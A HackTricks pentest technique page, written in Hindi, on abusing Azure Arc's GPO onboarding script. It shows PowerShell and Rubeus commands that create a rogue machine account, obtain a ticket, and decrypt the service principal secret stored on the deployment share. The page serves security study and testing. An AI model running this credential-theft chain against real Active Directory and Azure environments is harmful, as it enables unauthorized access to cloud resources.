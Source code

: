 # Az - Arc vulnerable GPO Deploy Script

{{#include ../../../banners/hacktricks-training.md}}

### समस्याओं की पहचान करना

Azure Arc नए आंतरिक सर्वरों (जुड़े हुए डोमेन सर्वर) को Azure Arc में Group Policy Object विधि का उपयोग करके एकीकृत करने की अनुमति देता है। इसे सुविधाजनक बनाने के लिए, Microsoft एक तैनाती उपकरण प्रदान करता है जो ऑनबोर्डिंग प्रक्रिया को प्रारंभ करने के लिए आवश्यक है। ArcEnableServerGroupPolicy.zip फ़ाइल के अंदर, निम्नलिखित स्क्रिप्टें पाई जा सकती हैं: DeployGPO.ps1, EnableAzureArc.ps1, और AzureArcDeployment.psm1।

जब इसे निष्पादित किया जाता है, तो DeployGPO.ps1 स्क्रिप्ट निम्नलिखित कार्य करती है:

1. स्थानीय डोमेन के भीतर Azure Arc Servers Onboarding GPO बनाती है।
2. EnableAzureArc.ps1 ऑनबोर्डिंग स्क्रिप्ट को ऑनबोर्डिंग प्रक्रिया के लिए बनाए गए निर्दिष्ट नेटवर्क शेयर में कॉपी करती है, जिसमें Windows इंस्टॉलर पैकेज भी शामिल है।

इस स्क्रिप्ट को चलाते समय, सिस्टम प्रशासकों को दो मुख्य पैरामीटर प्रदान करने की आवश्यकता होती है: **ServicePrincipalId** और **ServicePrincipalClientSecret**। इसके अतिरिक्त, इसमें अन्य पैरामीटर जैसे डोमेन, शेयर होस्ट करने वाले सर्वर का FQDN, और शेयर नाम की आवश्यकता होती है। स्क्रिप्ट को टेनेट ID, संसाधन समूह, और अन्य आवश्यक जानकारी भी प्रदान करनी होती है।

एक एन्क्रिप्टेड सीक्रेट निर्दिष्ट शेयर पर AzureArcDeploy निर्देशिका में DPAPI-NG एन्क्रिप्शन का उपयोग करके उत्पन्न होता है। एन्क्रिप्टेड सीक्रेट को encryptedServicePrincipalSecret नामक फ़ाइल में संग्रहीत किया जाता है। इसका प्रमाण DeployGPO.ps1 स्क्रिप्ट में पाया जा सकता है, जहां एन्क्रिप्शन को $descriptor और $ServicePrincipalSecret को इनपुट के रूप में कॉल करके ProtectBase64 द्वारा किया जाता है। डिस्क्रिप्टर में Domain Computer और Domain Controller समूह SIDs शामिल होते हैं, यह सुनिश्चित करते हुए कि ServicePrincipalSecret केवल Domain Controllers और Domain Computers सुरक्षा समूहों द्वारा डिक्रिप्ट किया जा सकता है, जैसा कि स्क्रिप्ट टिप्पणियों में उल्लेख किया गया है।
```powershell
# Encrypting the ServicePrincipalSecret to be decrypted only by the Domain Controllers and the Domain Computers security groups
$DomainComputersSID = "SID=" + $DomainComputersSID
$DomainControllersSID = "SID=" + $DomainControllersSID
$descriptor = @($DomainComputersSID, $DomainControllersSID) -join " OR "
Import-Module $PSScriptRoot\AzureArcDeployment.psm1
$encryptedSecret = [DpapiNgUtil]::ProtectBase64($descriptor, $ServicePrincipalSecret)
```
### Exploit

हमारे पास निम्नलिखित शर्तें हैं:

1. हम सफलतापूर्वक आंतरिक नेटवर्क में प्रवेश कर चुके हैं।
2. हमारे पास Active Directory के भीतर एक कंप्यूटर खाते को बनाने या उस पर नियंत्रण करने की क्षमता है।
3. हमने AzureArcDeploy निर्देशिका को शामिल करने वाले एक नेटवर्क शेयर का पता लगाया है।

AD वातावरण के भीतर एक मशीन खाते को प्राप्त करने के कई तरीके हैं। सबसे सामान्य तरीकों में से एक मशीन खाता कोटा का शोषण करना है। एक और तरीका कमजोर ACLs या विभिन्न अन्य गलत कॉन्फ़िगरेशन के माध्यम से मशीन खाते से समझौता करना है।
```powershell
Import-MKodule powermad
New-MachineAccount -MachineAccount fake01 -Password $(ConvertTo-SecureString '123456' -AsPlainText -Force) -Verbose
```
एक बार मशीन खाता प्राप्त हो जाने पर, इस खाते का उपयोग करके प्रमाणीकरण करना संभव है। हम या तो netonly ध्वज के साथ runas.exe कमांड का उपयोग कर सकते हैं या Rubeus.exe के साथ पास-थ-टिकट का उपयोग कर सकते हैं।
```powershell
runas /user:fake01$ /netonly powershell
```

```powershell
.\Rubeus.exe asktgt /user:fake01$ /password:123456 /prr
```
हमारी कंप्यूटर खाता के लिए TGT को मेमोरी में संग्रहीत करके, हम सेवा प्रमुख रहस्य को डिक्रिप्ट करने के लिए निम्नलिखित स्क्रिप्ट का उपयोग कर सकते हैं।
```powershell
Import-Module .\AzureArcDeployment.psm1

$encryptedSecret = Get-Content "[shared folder path]\AzureArcDeploy\encryptedServicePrincipalSecret"

$ebs = [DpapiNgUtil]::UnprotectBase64($encryptedSecret)
$ebs
```
वैकल्पिक रूप से, हम [SecretManagement.DpapiNG](https://github.com/jborean93/SecretManagement.DpapiNG) का उपयोग कर सकते हैं।

इस बिंदु पर, हम ArcInfo.json फ़ाइल से Azure से कनेक्ट करने के लिए आवश्यक शेष जानकारी एकत्र कर सकते हैं, जो एन्क्रिप्टेडServicePrincipalSecret फ़ाइल के समान नेटवर्क शेयर पर संग्रहीत है। इस फ़ाइल में विवरण शामिल हैं: TenantId, servicePrincipalClientId, ResourceGroup, और अधिक। इस जानकारी के साथ, हम Azure CLI का उपयोग करके समझौता किए गए सेवा प्रमुख के रूप में प्रमाणीकरण कर सकते हैं।

## संदर्भ

- [https://xybytes.com/azure/Abusing-Azure-Arc/](https://xybytes.com/azure/Abusing-Azure-Arc/)

{{#include ../../../banners/hacktricks-training.md}}

